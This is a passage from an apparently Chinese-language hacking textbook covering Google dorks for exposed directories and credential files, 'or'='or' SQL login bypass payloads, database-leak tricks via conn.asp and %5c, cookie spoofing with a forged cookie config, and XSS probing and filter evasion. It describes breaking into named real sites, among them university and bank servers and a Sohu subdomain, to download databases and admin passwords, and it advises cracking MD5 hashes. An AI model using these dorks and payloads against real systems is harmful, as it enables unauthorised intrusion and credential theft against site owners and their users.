- 1. 所有可以目录浏览的网页都有一些相同的地方，主要是下面几个：To parent directory、parent directory、Last modified、Description、转到父目录、index of /、`<DIR>` 等等。

上面这些词语是查找存在目录浏览网站的基础，也是组成关键字的核心。而且我们可以把“To parent directory”翻译成世界上各个国家的语言，比如翻译成中文是“转到父目录”。那么我们搜索“转到父目录”也可以查找到很多网站，而且都是中国内地的网站，如图 2-47 所示。


图 2-47　搜索含有“转到父目录”的页面

- 2. 而利用 Google 来搜索目录浏览的 Google 语法主要有：intitle、intext、inurl、site、filetype 等等。
- 3. 搜索特定的文件，我们需要用到文件后缀名，常见的文件后缀有：avi、bak、bmp、dll、exe、ini、mp3、rar、txt、wav、js、zip、chm 等。地址：http://www.vipcn.com/InfoView/Article_4312.html 上有目前世界上绝大部分的文件后缀，有关文件后缀可以到上面查询。
- 4. 我们还可以搜索特定的文件夹，不同的系统有不同的文件夹，这里列举了常见的文件夹名：Inetpub、etc、movie、music、dianying、yinyue、tv、dianshi、share、admin、login、denglu、guanli、电影、电视、音乐、共享、管理、登录、bbs、vote、luntan、toupiao、论坛、投票、upload、shangchuan、上传、check、yanzhen、验证等等。我们来看看效果，比如我们搜索 IIS 下的根文件夹 inetpub，如图 2-48 所示，这样 IIS 服务器下的所有东西我们就都可以看到了。


图 2-48　查找 IIS 下的关键字 inetpub

- 5. 搜索协议，常见的协议有 TCP、IP、DNS、TELNET 等等，具体的请到 http://www.cnpaf.net/（中国协议分析网）上去查询。比如我要看 TCP/IP 协议详解，如图 2-49 所示。


图 2-49　查看 TCP/IP 的页面

- 6. 搜索域名后缀，常见的域名后缀有：com、net、mil、org、info、gov、edu、biz、coop、aero、pro、int、arpa 等等，还可以针对不同地区来查找比如 cn 等等。可以到 http://www.windstudio.net/html/200508/20050829221807.htm 上查看全球的域名后缀，我们来看看美国军方存在这个漏洞的网站，如图 2-50 所示，居然存在 118000 页符合条件的网页，里面多少也应该有一点点机密资料吧。


图 2-50　查看军方网络里的目录浏览漏洞

其实上面都是以常见的词语来进行查找的，所以构造关键字的原理就是利用第一点中的词语和 Google 语法，再加上一些常见的词语，就可以编写出好的攻击关键字。不过找出来的很多网站里面的文件是不能够读取的，权限比较小。但是权限再小我们也可以得到对方网站的体系结构，这为我们踩点省了很多力气呀！能够直接读取的，那几乎是完美了，可以不费吹灰之力就可以攻破。

下面我通过几个实际的例子来运用上面的理论知识，实践才是检验真理的唯一标准。

- 1. 复旦大学：输入 `intext:to parent directory+intext:mdb site:fudan.edu.cn` 语句，搜索网站数据库文件，如图 2-51 所示。


图 2-51　查看复旦大学的数据库文件

不仅数据库文件可以下载，其他的 asp 文件也可以下载得到源代码。打开刚下载的数据库，管理员的密码就轻松地得到了，如图 2-52 所示，接下来就是登录后台、上传木马和提权了，这里就不多讲了。


图 2-52　下载到的数据库文件

- 2. 中国科学技术大学：输入 `intext:to parent directory+intext:conn.asp site:ustc.edu.cn` 语句，搜索网站的数据库链接文件 conn.asp，如图 2-53 所示，下载一个文件后发现里面居然是网站最敏感的数据，如图 2-54 所示。


图 2-53　搜索中国科技大学的数据库连接文件


图 2-54　得到的数据库连接敏感信息

- 4. 交通银行郑州分行：输入 `to parent directory site:202.102.239.179` 语句，有一个日志文件，如图 2-55 所示，下载后发现有一些绝对路径的敏感信息，如图 2-56 所示。


图 2-55　得到银行的目录浏览


图 2-56　得到银行的备份敏感信息

- 5. 无意中的 Webshell：输入 `inurl:/inc+conn.asp` 语句后得到了一个免费的 Webshell，如图 2-57 所示。


图 2-57　得到的 Webshell

从攻击者的角度来讲，最主要的就是写攻击关键字。关键字的原理也很简单，就是以目录浏览的那几个关键字为中心，然后利用发散思维（比如默认数据库链接文件）不断地去扩展关键字的范围，从而获得更多的肉鸡。从管理员的角度来讲，千万不要忽视服务器上“目录浏览”功能，如果配置不当，特别是网站根目录也允许目录浏览的话，就可能会对网站产生毁灭性的打击，使用不当就是网站的一根软筋。所以“目录浏览”这个功能在使用的时候要慎重。其实与目录浏览一起的功能也是要慎重使用，这里以 IIS 为例，“脚本资源访问”和“写入”千万不要随便开启，除非有特殊情况。从暴库漏洞到目录浏览这一过程并不是一帆风顺，中间花了很多时间来思考，这一切的一切都是因为“目录浏览”引起的，希望本文对各路朋友都有所帮助。服务与安全永远是对立的，我们所要做的就是在它们中间寻求对立与统一。

上面我们的利用显示了 Google 的强大搜索能力，当然还是有防范的方法。现在比较常见的方法就是使用 robots.txt 文件来阻止搜索网站的敏感信息。robots.txt 文件就是搜索引擎通过一种程序 robot（又称 spider）自动访问互联网上的网页并获取网页信息。我们可以在自己的网站中建一个文本文件 robots.txt，在这个文件中声明这个网站中不想被搜索引擎访问的内容，这样这个网站的部分或者全部内容就可以不被搜索引擎搜索到了。对于 robots.txt 的信息，更多的大家可以去访问 http://www.baidu.com/search/robots.html。这个文件比较有用，比如管理员不想让搜索引擎搜索到网站的后台，那么他就可以把后台的地址加入到 robots.txt 文件中去，那么搜索引擎就不会去检索这些信息了。但是这样同样会带来安全问题，比如我们访问了这个 robots.txt 文件，那所有的敏感信息就全部被我们曝光了。

通过我对 robots.txt 文件的分析，发现这个文件都有一个共同点，那就是都含有“User-agent:*”这个关键字，所以我们可以利用 Google Hack 来查找网站的 robots.txt 文件。我们只需要在 Google 里输入 “intext:"User-agent:*" inurl:robots.txt”、“intext:"Mediapartners-Google" inurl:"robots.txt"”、“intext:"Disallow:" inurl:robots.txt”、“intext:"Allow:" inurl:"robots.txt"”、“inurl:"robots.txt"” 等语句，就可以搜索存在 robots.txt 文件的网站信息了，如图 2-58 所示。


图 2-58　搜索到的 robots.txt

其实利用 Google Hacking 来踩点就是利用一些关键字来查询，而且关键字最好是世界上独一无二的，那么收集的信息就越全面。利用 Google Hacking 来入侵同样也是利用关键字。它的原理很简单，语法也不多，给了我们自己最大的自由发挥空间。利用它来入侵网站看上去是很合法的，所以它的隐蔽性也是相当强的。只有灵活地运用它才能够达到最大的效果。

下面我给出一些最常见的语句，这些语句是一小部分，大部分是国外网站上公布出来的，可以作为自己以后构造语句的参考。最新的语句请看 http://johnny.ihackstuff.com 。

- `allinurl:bbs data`  
  查找所有 bbs 中含有 data 的 URL
- `filetype:mdb inurl:database`  
  查找含有 database 的 URL，且后缀名为 mdb 的文件
- `filetype:inc conn`  
  查找后缀名为 inc、内容含 conn 的文件
- `inurl:data filetype:mdb`  
  查找含有 data 的 URL，且后缀名为 mdb 的文件
- `intitle:"index of" data`  
  查找网页标题中含有“index of” data 的网页
- `intitle:"Index of" .sh_history`  
  查找网页标题中含有“Index of” .sh_history 的网页
- `intitle:"Index of" .bash_history`  
  查找网页标题中含有“Index of” .bash_history 的网页
- `intitle:"index of" passwd`  
  查找网页标题中含有“index of” passwd 的网页
- `intitle:"index of" people.lst`  
  查找网页标题中含有“index of” people.lst 的网页
- `intitle:"index of" pwd.db`  
  查找网页标题中含有“index of” pwd.db 的网页
- `"# -FrontPage-" inurl:service.pwd`  
  查找含有 service.pwd 的 URL，且网页中含有“# -FrontPage-”
- `site:xxxx.com intext:管理`  
  查找某个网站中网页正文含有“管理”的页面
- `site:xxxx.com inurl:login`  
  查找某个网站中 URL 地址中含有 login 的页面
- `site:xxxx.com intitle:管理`  
  查找某个网站中标题含有“管理”的页面

Google Hack 我就给大家讲到这里了，大家在掌握了上面的知识后，应该自己去多实践一下，不要造成眼高手低的情况哦。还有就是 Google Hack 发展和更新非常快，大家可以去 http://johnny.ihackstuff.com 这个网站上看最新的语句。

### 2.2 `'or'='or'` 经典漏洞攻击

`'or'='or'` 漏洞是一个比较古老的漏洞了，它主要出现在后台登录上，利用这个漏洞，我们可以不需要密码而进入系统后台。它出现的原因是在编程的时候逻辑上考虑不足，还有就是没有对单引号进行过滤，从而导致了漏洞的出现。逻辑上考虑不足是在 AND 和 OR 上面没有考虑到它们的关系，这为 `'or'='or'` 提供了前提条件，而单引号没有过滤则为漏洞提供了触发条件，两者一结合就出现了这类漏洞了。在后面我会给大家从代码的角度完全解释这个漏洞，这里简单地给大家介绍一下。

利用这类漏洞进入不仅仅只有 `'or'='or'`，还有其他的语句，其他类似语句有 `a' or'1=1--`、`'or1=1--`、`"or1=1--`、`or1=1--`、`'or'a'='a`、`"or"='a'='a`、`') or ('a'='a` 等等。

我们要利用这个漏洞，就要首先找到网站的后台了。上一节已经给大家讲解了 Google Hack 技术了，利用它来找后台应该是非常轻松的事情了。不过这里我给大家提供一些后台页面的资料，分别是它们的文件名和后台关键字。这里我以 ASP 为例子来说明，下面的文件也是以 ASP 文件来说明，是 PHP 或其他脚本的时候，只需要把后缀名改成相应的脚本语言名即可。

- 后台文件名主要有：

1. admin.asp  
2. ad_login.asp  
3. ad_manage.asp  
4. addmember.asp  
5. adduser.asp  
6. adm_login.asp  
7. admin/admin.asp  
8. admin/admin_login.asp  
9. admin/index.asp  
10. admin/manage.asp  
11. admin_admin.asp  
12. admin/login.asp  
13. admin_edit.asp  
14. admin_index.asp  
15. Admin_Login.asp  
16. admin_main.asp  
17. admin_pass.asp  
18. admin_user.asp  
19. adminadduser.asp  
20. adminlogin.asp  
21. adminuser.asp  
22. chkadmin.asp  
23. login.asp  
24. login/admin.asp  
25. login/index.asp  
26. login/login.asp  
27. user/admin.asp  
28. user/index.asp  

同时我们还可以结合以下的关键字：密码、用户名、后台、帐号、会员、会员 ID、username、password、user、pass 等等。

我们随便写条查询后台语句，比如 `intext:用户名 inurl:admin/login.asp`，我们搜索看看就可以得到很多网站的后台地址了，如图 2-59 所示。


图 2-59　搜索到的网站后台

大家还可以自己去构造一些查询语句，记得要多多实践。有了那么多后台了，我们可以一个个地去试，这种方法就是有点太笨了，不过也不失为一种。在大家一开始玩这个漏洞的时候，也许只有用这个办法了。一般来说，这个方法可以用在我们入侵某一个特定网站的时候，比如找到网站后台后可以用这种方法试一下。还有一种就是我们在分析代码的时候，可以从代码中找出系统是否存在这样的漏洞。考虑到第一次接触这个漏洞，大家可以去试一下我们第一次说的那种方法，看看大家的运气了，不过不要抱太大的希望哦，毕竟这是一个老漏洞了。

我已经为大家找到了两个网站来给大家演示。一个是中国科技大学的一个研究院网站，网址为 http://www.ustcsz.edu.cn。找它的后台我们可以使用 “inurl:admin/login.asp site:ustcsz.edu.cn”，非常轻松地就找到了后台登录口。在得到后台登录口后，在用户名和密码处都输入 `'or'='or'`，如图 2-60 所示，点击登录我们就可以顺利地进入后台了，如图 2-61 所示。


图 2-60　在后台处输入 `'or'='or'`


图 2-61　顺利进入后台

在前面我们就通过 Google Hack 来渗透了搜狐网站，我们就找到了一个存在注入漏洞的网站。不过在后面的继续渗透过程中，我又找到了一个搜狐分站的后台，也发现存在 `'or'='or'` 漏洞，如图 2-62 所示，我们只要在用户名和密码输入 `a' or'1=1--`、`'or'='or'`、`'or' a'='a` 中的随便一个就可以进入后台，如图 2-63 所示。

图 2-62　后台登录口

图 2-63　进入 SOHU 分站后台

这就是 `'or'='or'` 漏洞的利用方法，相对来说比较简单，是我们在入侵和渗透对方网络的时候常用的一种方法。这个漏洞的发掘会在后面的代码分析中再解释，这里大家要学会怎么动手。

### 2.3 暴库漏洞攻击

在第一节的时候我们就接触了一下暴库这个漏洞。在前面我们就已经接触了注入漏洞，对于一般的黑客而言，注入不仅仅是为了得到网站后台的密码，更多的时候是为了得到 webshell。我来给大家解释一下什么是 webshell。webshell 就是一个 asp 或 php 木马后门，黑客在入侵了一个网站后，常常将这些 asp 或 php 木马后门文件放置在网站服务器的 web 目录中，与正常的网页文件混在一起。然后黑客就可以用 web 的方式，通过 asp 或 php 木马后门控制网站服务器，包括上传下载文件、查看数据库、执行任意程序命令等。webshell 最大的优点就是可以穿越防火墙，由于与被控制的服务器或远程主机交换的数据都是通过 80 端口传递的，因此不会被拦截。并且使用 webshell 一般不会在系统日志中留下记录，只会在网站的 web 日志中留下一些数据提交记录，没有经验的管理员是很难看出入侵痕迹的。在得到 webshell 后通常还会提升权限，最终控制服务器，这些在后面会详细讲解。

相对于注入漏洞，暴库漏洞就更加方便了。如果网站采用 ACCESS 数据库，那么暴库之后就可以得到数据库的绝对地址，从而顺利地把数据库下载下来，最后得到管理员的密码，不过一般是经过了 MD5 加密的，这在后面会说明，这里大家要明白。  
而如果采用的是以脚本语言名为后缀的话，比如 asp、php 等，那么我们就可以直接往里面插入木马，直接得到 webshell，非常方便。

常见的暴库漏洞有 conn.asp 方法和 %5c 方法，如果你对上面的方法都没有听过也没有关系，下面我就来详细讲解这两种方法。

#### 2.3.1 conn.asp 暴库法

这个暴库法我们先从 conn.asp 说起。conn.asp 暴库是一个很老的方法了，第一节也提到过。它是通过直接访问数据库连接文件 conn.asp 使服务器产生错误，通过服务器返回的错误信息提示从而暴出数据库的绝对地址。其实数据库连接文件不只是 conn.asp 一个，名字是可以改的，这一点大家不要误会了，这里的 conn.asp 文件是代表数据库连接文件，至于 conn.asp 这个名字并不重要。

我们在 Google 里输入 `inurl:"conn.asp"` 就可以搜索到非常多存在暴库漏洞的网站，如图 2-64 所示。随便打开一个，就可以看到网站的数据库地址，如图 2-65 所示。我们试着下载看看，如图 2-66 所示，数据库可以被下载。

图 2-64　搜索到的 conn.asp 暴库网站

图 2-65　存在暴库漏洞的站点

图 2-66　利用暴库漏洞下载数据库

可能有些朋友对数据库连接文件还是不太明白，这里我再解释一下。数据库连接文件就是对数据库调用的一个文件，里面包含了被调用数据库的路径及数据库名等等，比如我们调用 MSSQL 数据库的时候，那么还会含有 SQL 连接的用户名及密码等内容。另外数据库连接文件的名字并不都是 conn.asp，有的系统可能是别的名称，但大多数都是用 conn.asp，所以我们就把这类漏洞称为 conn.asp 暴库，更准确地应该叫做数据库连接文件暴库漏洞。

为什么直接访问数据库连接文件就能够暴出数据库的地址呢？这是因为数据库连接文件与调用文件的相对路径出错了。相对路径就是相对于我们服务器管理 WEB 的根目录的路径，比如我们的 IIS 根目录为 `D:\wwwroot\`，那么在这个目录下会有一个 inc 目录，这个大家可以去装了 IIS 就应该知道。现在我们要访问 inc 这个目录下的文件的时候，我们只需要在浏览器中输入 `http://127.0.0.1/inc`，而不用输入 `http://127.0.0.1/wwwroot/inc`。这里的 inc 目录就是相对于 wwwroot 为根目录的一级目录，记着是相对。而 inc 这个目录的绝对路径是 `D:\wwwroot\inc`，是一个二级目录，记着是绝对。

我们还是举个例子来实际说明吧。假设我们现在的 IIS 上架构了一套动力系统，动力的 conn.asp 放在根目录下的 inc 目录下运行。但是我们许多调用 conn.asp 的文件都是放在根目录下运行的，所以考虑到执行目录的不同，在 conn.asp 文件中数据库的相对地址就写成了“数据库所在目录/数据库名”。在我们的动力系统中，默认的 conn.asp 代码中有一条就是表示数据库的路径。当 conn.asp 被根目录下的其他文件调用时，它连接的是根目录中 data 目录下的 `*.mdb` 文件；而当我们直接访问 inc 目录下的 conn.asp 时，根据 conn.asp 中的内容，服务器就会去请求连接 inc 目录下的 data 目录，那么相对路径就变成了 inc/data。但是我们的 inc 目录下并没有 data 这个目录和文件，所以服务器就会报错，如图 2-65 所示。

#### 2.3.2 %5c 暴库法

下面我们来谈谈 %5c 暴库漏洞的利用。有一些网站，我们只需要在该网站最后一个“/”改成“%5c”就能够暴出它的数据库来，如图 2-67 所示。

图 2-67　得到网站数据库的绝对路径

为什么把“/”改成“%5c”就可以暴库呢？这和编码和 IIS 有很大的关系，下面就来看看它们是什么关系。大家可能还不太明白 %5c 是什么东西，其实 %5c 就是 16 进制代码中的“\”。可是我们为什么不直接把最后一个“/”改成“\”呢？这是因为如果我们直接在浏览器中提交“\”的话，浏览器会自动把“\”转换成“/”，而我们提交“%5c”是不会被浏览器转换的，最后“%5c”被编译表示成了“\”。

可为什么被编译成“\”就会出现暴库呢？大家还记得前面的 conn.asp 暴库吧，conn.asp 暴库是由于相对路径出错了，IIS 报错信息就暴出了网站的数据库；而我们的 %5c 暴库恰恰相反，是由于绝对路径出错了而引起的暴库。

一般来说，在 conn.asp 中都有一句这样的代码：

```asp
dbpath=server.mappath("数据库地址")
```

其中 `server.mappath` 的作用就是把相对路径转换成绝对路径，只有经过它的转换，服务器才能够正确地读写数据。`server.mappath` 读取绝对路径的方法是这样的：假设 IIS 的根目录为 `D:\wwwroot`，在这个目录下还有一个 bbs 文件夹，一个 ASP 文章系统就放在这个目录下面，这个系统的数据库路径是 `database/data.mdb`，那么 `server.mappath` 读取的路径就是 IIS 根目录 + 相对路径，即 `D:\wwwroot\bbs\database\data.mdb`。

通过第一章对服务器的介绍，大家应该还知道 IIS 还有一个叫虚拟目录的功能。我们还以上面的例子来说明，不过这次我们的 bbs 目录不是在 `D:\wwwroot` 下，而是在 `E:\bbs`。通过 IIS 虚拟目录的设置，我们仍然可以把 bbs 看成是在 wwwroot 下。不过这个时候我们的目录指向的是一个物理路径，IIS 为了解决虚拟目录也能够正常访问的问题，优先查询每一个目录是否指向了一个物理路径，而这种查询就是以“\”为标志的。

接下来就说说 %5c 的暴库原理了。当 IIS 遇到了 %5c，即当作“\”时，IIS 就以为遇到了一个虚拟目录，便停止向上面的文件夹解析了。比如，网站的数据库是在 `D:\wwwroot\bbs\database\data.mdb`，而当遇到“\”后就会被解析成 `D:\wwwroot\database\data.mdb`。但是因为 wwwroot 目录下没有 database 文件夹和 `database\data.mdb` 文件，所以 IIS 就会报错，那么我们的目的就达到了。

#### 2.3.3 暴库的常见问题和解决方法

在暴库的过程中，我们会遇到很多问题，特别是对于新手来说，下面是我收集到的一些常见问题及解决方法。

- 1. 暴库的时候并不显示 XXXX 错误，而是 HTTP 500 错误。对于这个非常好办，是由于没有对 IE 浏览器进行设置而导致的。打开 IE 浏览器，在菜单“工具”下找到“Internet 选项”，然后找到“高级”处把“显示友好的 HTTP 错误信息”前的“√”去掉，如图 2-68 所示，应用之后就可以下载数据库了。  
  图 2-68　解决暴库的时候并不显示 XXXX 错误的问题

- 2. 暴出的数据库是以 asp 结尾的，如图 2-67 所示，不过下载不了。其实以 asp 结尾的数据库也是可以下载下来的，我们把它的 URL 地址复制到比如迅雷的下载工具上就可以下载了。不过也有的数据库中专门建立了一个防下载的表，里面写入一条错误的 ASP 代码，一般是 `<% nodownload %>`，这个时候如果再把数据库的后缀改成 asp 就下载不了。

- 3. 有的时候暴出的数据库中含有“#”号，也同样下载不了。前面我们说了 %5c 其实就是“\”的 16 进制代码，同样地，我们这里也可以用“#”的 16 进制代码 `%23` 代替“#”，这样数据库就一样可以下载了。

- 4. 对于上面的 ASP 数据库，很多时候我们下载下来以后无法打开，或者有的时候还需要密码。对于 ASP 数据库，我们只要把它的后缀改成 mdb 就可以了。至于需要密码，在第一章介绍 ACCESS 数据库的时候大家已经知道 ACCESS 数据库有密码功能。其实对于 ACCESS 数据库的密码是很容易破解的，在光盘里我已经给大家推荐了一款叫做 Access 密码破解终结的工具，非常好用。对于 ACCESS 数据库，如果没有安装 Office 软件，那么可以用辅助数据库浏览器打开，光盘中也收录了。

- 5. 如果打开数据库后发现密码是 16 位或者 32 位的，那么就说明这个密码是用了 MD5 这个加密系统对密码进行加密了。对于 MD5 密码破解还是比较困难的，这里我给大家推荐 MD5Crack 这款 MD5 密码破解工具。同时还有一个在线破解 MD5 密码的网站 `http://www.xmd5.com`，这个网站收录所有常见的 MD5 密码，是破解 MD5 必备的武器，建议大家还是使用网站来破解。

- 6. 数据库是 .mdb 但是却下载不了，遇到这个情况可以用迅雷之类的工具下载，如果还不行的话，那可能就是数据库位于服务器的虚拟目录中，对于这种情况是没什么办法的。

- 7. 有的时候用 %5c 暴库却显示“处理 URL 错误，请与系统管理员联系”，而用 conn.asp 暴库的时候是一片空白。用 conn.asp 暴库的时候一片空白，是因为 conn.asp 中加入了容错语句；而显示“处理 URL 错误，请与系统管理员联系”是服务器屏蔽了错误信息的显示，这个时候暴库就没什么用了。

### 2.4 Cookies 欺骗漏洞

现在很多系统为了方便我们访问网站，都使用了一个叫 cookie 的技术来避免我们多次输入用户名和密码等信息，而且这个 cookie 是一个文本文件，是存储在我们本地机器上的。Cookies 是一小段文本信息，它伴随着用户请求和页面在 Web 服务器与浏览器之间传递。用户每次访问网站的时候，Web 应用程序都可以读取 cookies 包含的信息。使用 cookies 能够达到网站认识你的目的。对于 cookies 的基础知识在第四章有非常详细的解释。

我们自己可以去查看自己电脑上的 cookie 文件。对于使用 Windows 操作系统并使用 IE 浏览器的朋友，通常可以在 `C:\Documents and Settings\用户名\Cookies` 目录中找到。如果不是这个目录，可以利用 Windows 自带的搜索功能搜索关键字 cookies 也可找到。既然是文本文件，那么我们当然可以修改上面的内容了。所以如果我们对里面的内容进行修改，比如把自己的信息改成别人的，那么我们访问的时候不就成了别人了，那样我们就冒充了别人进入了。这样就达到了欺骗的目的了，这就是非常著名的 cookies 欺骗漏洞。对于 cookies 欺骗漏洞形成的原因，一般是对 cookies 验证不足而造成的。

在下面我将给大家讲解 cookie 欺骗攻击的步骤及方法，至于如何从代码中发现漏洞将在后面详细分析。

要查看本地计算机上的 cookie，我给大家推荐 IEcookie View 这款工具，用它非常方便，如图 2-69 所示，一打开它就可以看到本地计算机上所有的 cookie 文件。

图 2-69　IE Cookie 工具

我们可以点击 BAIDUID 这个文件，在图 2-69 中可以看到，单击鼠标右键出现两个选项，一个是 Properties，另外一个是 Edit the cookie' content，我们一般就用到这两个功能。在这里我们可以查看和修改其 cookie 值，而且 cookie 的各项值都已经分开好了，修改起来非常方便。如图 2-70 所示，从图中我们还可以看到 BAIDU 给我们的 cookie 的有效期为 30 年。

图 2-70　查看百度的 cookies

而对于利用 cookie 进行欺骗，那就应该用桂林老兵 cookie 的欺骗工具。这个工具提供了简单的浏览器功能，但同时提供了查看当前打开页面的 cookie 值和修改 cookie 的功能。比如我打开 BAIDU，如图 2-71 所示。

图 2-71　网页中查看 cookies 值

不仅打开了 BAIDU 的页面，同时其 cookie 也看到了。如果要修改它的 cookie 值，那先应该单击一下 cookies 输入栏前的那把锁，单击之后会发现 cookie 输入栏内的颜色稍微变了下，由灰色变成白色了，这样就可以修改 cookie 了，等修改完了之后，再单击那把锁就把 cookie 值给锁定了。

下面我就以我自己发现的心情网络投票系统的 cookie 欺骗漏洞来详细讲解 cookie 欺骗漏洞攻击的主要步骤。先利用 Google Hack 来搜索使用这个系统的网站，可以使用的关键字有：

- `function touvote(){window.open`
- `formvote.submit();}"`
- `formvote.action=`
- `document.write(vote)`

这些关键字可以非常准确地找到使用这个系统的网站，如图 2-72 所示，有 291000 项记录，也够多了吧。

图 2-72　搜索投票系统

我们用桂林老兵 cookie 的欺骗工具随便打开一个网站，我这里用 `http://www.1ht0523.com/vote/index.asp` 来举例，打开之后就可以看到网站的 cookie 值，把 admin 和 qx 都改成 `admin=admin` 和 `qx=qx`。修改后代码如下：

```ini
[MyBrowser]
Cookies=admin=admin;qx=qx;cck_lasttime=1153188298890;cck_count=0;
ASPSESSIONIDQQDAQQRR=MKEDFCCCDDFKMFMJDJDGKNKI
Address=http://www.1ht0523.com/vote/index.asp
InjectAddress=http://www.hackerdown.com/down.asp?id=39&no=1{v}
InjectCode=
```

现在用桂林老兵来进行 Cookies 欺骗了，把 URL 地址的文件改为 step1.asp，这样顺利地登录了后台，如图 2-73 所示。

图 2-73　进入后台

至于为什么这样改了之后就可以进入后台，将在后面的代码分析中详细说明。我们从漏洞的本质上来分析，这里就是让大家对 cookies 有一个感性认识，知道怎么去利用 cookie 欺骗就可以了。

### 2.5 跨站漏洞

跨站漏洞攻击是目前脚本黑客下的一个主要攻击技术。跨站脚本是指在远程 WEB 页面的 HTML 代码中插入的具有恶意目的的数据，用户认为该页面是可信赖的，但是当浏览器下载该页面，嵌入其中的脚本将被解释执行。有时候跨站脚本被称为“XSS”，这是因为“CSS”一般被称为分层样式表，这很容易让人困惑。如果你听某人提到 CSS 或者 XSS 安全漏洞，通常指的是跨站脚本。

跨站漏洞产生的原因是由于程序员在编写程序时对一些变量没有做充分的过滤，直接把用户提交的数据送到 SQL 语句里执行，这样导致用户可以提交一些特意构造的语句，一般都是带有像 JavaScript 等这类脚本代码。在这基础上，黑客利用跨站漏洞输入恶意的脚本代码，当恶意的代码被执行后就形成了所谓的跨站攻击。一般来说对于人机交互比较高的程序，比如论坛、留言板这类程序都比较容易进行跨站攻击。利用跨站漏洞黑客可以在网站中插入任意代码，这些代码的功能包括获取网站管理员或普通用户的 cookie，隐藏运行网页木马，甚至格式化浏览者的硬盘。只要脚本代码能够实现的功能，跨站攻击都能够达到，因此跨站攻击的危害程度丝毫不亚于溢出攻击。下面我们就来了解一下跨站攻击的主要攻击形式。

原理这里就不再过多地讲了，在第四章会给大家非常详细的说明，毕竟跨站也是要有点语言基础的。这里给大家讲的目的是让大家初步认识跨站脚本，以及怎么在一个网站中发现跨站漏洞。为了更好和更全面地让大家认识，这里我引用了三篇文章：第一篇是由王炜写的《一次跨站漏洞（XSS）的发掘》；第二篇是由非零解写的《163、sina、sohu 也玩跨站》；第三篇是由我写的《再次挖掘中国博客网之跨站漏洞》。

#### 2.5.1 一次跨站漏洞（XSS）的发掘

##### 一、XSS 简介和原理

XSS（Cross Site Script）的全称是跨站脚本，是一种危害性很大的漏洞。为什么被称为跨站脚本呢？这是因为跨站脚本执行漏洞，是通过别人的网站达到攻击的效果，也就是说，这种攻击能在一定程度上隐藏身份。其实“跨站点脚本”这个词应该属于用词不当的情况，因为它不仅与脚本有关，而且它甚至不一定是跨站点的。所以，它就是一个在发现这种攻击时起的一个名字，并且一直沿用至今，故称为跨站脚本。Cross Site Script 第一个单词首位是 C，为什么写成 X 呢？这是因为 CSS 是层叠样式表（Cascading Style Sheets）的缩写，为了避免混淆，所以用和 Cross 发音近似的 X 来代替。

跨站脚本漏洞的本质是 HTML 的注入问题，如果恶意用户的输入（比如昵称、评论、头像、E-mail 等）没有经过严格的筛选进入了数据库，并最后生成在显示给来访用户的页面中，那么用户访问该页面时，浏览器就会执行恶意用户所输入的 HTML 代码。

浏览器为什么会执行恶意用户输入的代码呢？这是由于浏览器的不足之处而造成的。浏览器的功能就是解释 Web 服务器发送过来的 HTML 代码，它无法分辨出哪些 HTML 代码应该解释执行，哪些只是数据内容（比如上面提到的昵称、评论、头像、E-mail 等）从而应该简单显示。如果恶意用户的输入部分符合 HTML 的语法规范，则在显示时，就会被浏览器自动解释成 HTML 代码。

如果被解释的恶意 HTML 代码只是如加粗 `<b>`、斜体 `<i>` 的格式标志符，那还对访问的用户造不成太大的危害，只是显示可能不正常而已。但是如果注入的恶意 HTML 代码是 Javascript 一类的脚本语言时，则大大地不同了。Javascript 有强大的功能，比如 Google 桌面搜索小工具、MSN 桌面搜索 Gadget 都可用 Javascript 和 VBScript 完成。不过还好，浏览器一般都有安全策略，限制未知网络对本地计算机的访问和破坏性操作，但跨站恶意注入的 Javascript 代码，已经可以在安全策略的允许范围内完成任意的功能了。如果利用浏览器的某些漏洞，绕过浏览器的安全策略，那么可以随意实现访问硬盘、执行代码的任意功能了，这就是常说的“挂马”了。

##### 二、XSS 的探测和绕过过滤

在可输入区输入 script 代码，比如在用户的简介中输入 `<script>alert("test")</script>`，打开用户页面，如果弹出如图 2-74 所示的窗口，那么，就有跨站漏洞了。


图 2-74 存在跨站漏洞

如果在简介输入区，显眼的 `<script>` 字符被过滤，可以试试利用已经存在的属性，如 ``，可以一样地实现跨站的探测。进一步，如果 `javascript:` 的关键字也被过滤了，那么可以试试 ASCII 码的表示方法，将 `javascript:` 转换成一些 16 进制的值，比如：

```html

```

或者添加空格、tab，比如：

```html

```

还可以用事件和属性避免关键字，绕过监测，比如：

```html


```

值得一提的是，yahoo mail 的跨站漏洞，是由如下的语句造成的。

```html
<STYLE onload=alert('cookes exploit!');alert(document.cookie)">
```

在 RSnake 那篇著名的论文《XSS cheatsheet：ESP for filter evasion》里面，详细总结了能够绕过过滤的属性和方法。在实际中，获得绕过过滤实现跨站方法，最好是输入一些测试 script 语句，看生成的页面中转换后的 HTML 代码。如果 script 语句被替换不能执行，则打开观看生成页面的 HTML 代码，可以发现某些关键字转化的过程，然后想法使用其他关键字绕过。如果网站程序有源代码，那更好啊，清楚地知道了转换的过程，就可以想法构造出更好的绕过过滤办法。

##### 三、一个无源码网站跨站漏洞的发掘实例

有一个自己经常上的网站，不知道它的源代码，也不知道是否作了跨站防范。如何绕过过滤，找出其跨站漏洞呢？首先应该详细地查看网站结构，特别注意那些会显示到页面上的用户输入数据。经过观察发现，用户输入的某些个人信息会生成页面被其他用户浏览，这些信息包括 E-Mail、昵称、简介等，如下图 2-75 所示。


图 2-75 输入跨站测试代码

由于其他用户查看某人的信息时，只能看到 E-Mail、昵称和简介，所以我们在 E-Mail、昵称、简介栏中都输入 `` 进行测试。如果存在跨站漏洞，则会在浏览用户信息时，弹出一个含有“test”的对话框。好，点击更新按钮，提示信息更改成功，如图 2-76 所示。


图 2-76 跨站代码成功提交

再进入用户信息查看页面，嗯？没有预想中弹出对话框的效果，javascript 代码都在那里好好地躺着呢，而且昵称还有长度限制，使得名字的显示非常怪异，如图 2-77 所示。


图 2-77 存在跨站，但被限制了

这究竟是怎么回事呢？解铃还需系铃人，点击右键，查看源代码，“代码面前没有秘密”，一看便知道了。原来小于号“<”、大于号“>”和空格都被替换了，分别被替换成了 `&lt;`、`&nbsp;` 和 `&gt;`。也就是说，原来输入的代码都被替换成了：

```html

&lt;img&nbsp;src=javascript:alert("test")&nbsp;&gt;
```

这当然不会被浏览器认为是 script 代码了，数据只好老老实实地显示出来。首次尝试失败。这可怎么办呢？难道就不能利用了吗？不要急，注意看 Email，表现出了超链接的形式，链接的内容是什么呢？再打开源代码，找到 Email 一项，如下：

```html
<a href="mailto:
&lt;img&nbsp;src=javascript:alert("test")&nbsp;&gt;</a>
```

